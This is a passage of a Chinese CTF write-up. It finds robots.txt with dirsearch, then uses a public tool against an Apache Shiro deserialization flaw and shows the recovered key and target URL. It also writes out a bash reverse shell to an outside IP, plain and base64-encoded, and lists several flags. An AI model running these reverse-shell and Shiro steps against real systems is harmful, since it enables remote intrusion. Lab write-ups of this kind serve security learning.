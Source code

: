  PS：port 8080

flag{4b139fce0c0c3e53a69fc34fabd2d6db}

# 场景六

看8080端口

dirsearch扫一下得到robots.txt

![image-20220927105703038](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202209271057092.png?x-oss-process=hzy)

![image-20220927105715271](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202209271057314.png?x-oss-process=hzy)

PS:next to my home 

flag{00200c35443afb415c4427f94094fdd0} 

# 场景七

![image-20220927105819267](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202209271058329.png?x-oss-process=hzy)

抓个包看看

![image-20220927105939682](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202209271059783.png?x-oss-process=hzy)

nice，shiro洞

先用下面这个寻找一下是否存在默认的key

[insightglacier/Shiro_exploit: Apache Shiro 反序列化漏洞检测与利用工具 (github.com)](https://github.com/insightglacier/Shiro_exploit)

找到true key

![image-20220927111831216](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202209271118276.png?x-oss-process=hzy)

```
vulnerable:True url:http://139.224.3.107:8080   CipherKey:kPH+bIxk5D2deZiIxcaaaA==
```

制作vps反弹shell

```
bash -i >& /dev/tcp/43.138.40.212/7777 0>&1
```

Java Runtime 配合 bash 编码

[命令执行在线编码 | 国光 (sqlsec.com)](https://www.sqlsec.com/rce/)

![image-20220927112511685](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202209271125746.png?x-oss-process=hzy)

```
echo YmFzaCAtaSA+JiAvZGV2L3RjcC80My4xMzguNDAuMjEyLzc3NzcgMD4mMQ==|base64 -d|bash -i
bash -c {echo YmFzaCAtaSA+JiAvZGV2L3RjcC80My4xMzguNDAuMjEyLzc3NzcgMD4mMQ==}|{base64 -d}|{bash -i}
```
